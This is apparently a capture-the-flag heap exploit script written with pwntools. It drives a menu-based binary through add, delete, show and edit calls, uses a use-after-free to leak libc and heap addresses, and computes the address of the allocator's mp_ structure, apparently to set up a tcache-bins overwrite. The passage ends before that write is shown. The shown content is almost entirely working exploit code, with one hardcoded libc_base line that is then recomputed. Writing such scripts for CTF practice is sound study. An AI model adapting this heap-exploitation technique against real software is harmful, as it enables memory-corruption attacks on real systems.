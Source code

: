 ##### exp:

```plain
def dbg():
   gdb.attach(proc.pidof(s)[0])
   pause()

def add(size,index,content):
    s.recvuntil(b'>> ')
    s.sendline(b'1')
    s.recvuntil(b'HOw much?\n')
    s.sendline(str(size))
    s.recvuntil(b'which?\n')
    s.sendline(str(index))
    s.recvuntil('Content:\n')
    s.sendline(content)

def delete(index):
    s.recvuntil(b'>> ')
    s.sendline(b'2')
    s.recvuntil(b'which one?\n')
    s.sendline(str(index))

def show(index):
    s.recvuntil(b'>> ')
    s.sendline(b'3')
    s.recvuntil(b'which one?\n')
    s.sendline(str(index))  

def edit(index,content):
    s.recvuntil(b'>> ')
    s.sendline(b'4')
    s.recvuntil(b'which one?\n')
    s.sendline(str(index))
    s.recvuntil('content:\n')
    s.sendline(content)    

# 0x415(1055) <= size < 0x550(1360)

add(0x460 ,0,b'a') 
add(0x450,1,b'b') 
add(0x450,2,b'c') 
#add(0x500,3,b'd')


delete(0)
show(0)
libc_base = 0x7fff00000000 + 0xF7E45420 - libc.sym['puts']
li('libc_base = '+hex(libc_base))
libcbase = u64(s.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) - 96 - 0x10 - libc.sym['__malloc_hook']
li('libcbase = '+hex(libcbase))

add(0x540,4,b'a') #largebin

delete(2)

show(2)
heap = u64(s.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
li('heap = '+hex(heap))

mp = libcbase + 0x1EC280
#dbg()
#mp_.tcache_bins = 0x7ffff7fad2d0
#mp_.tcache_max_bytes = 0x7ffff7fad2d8
```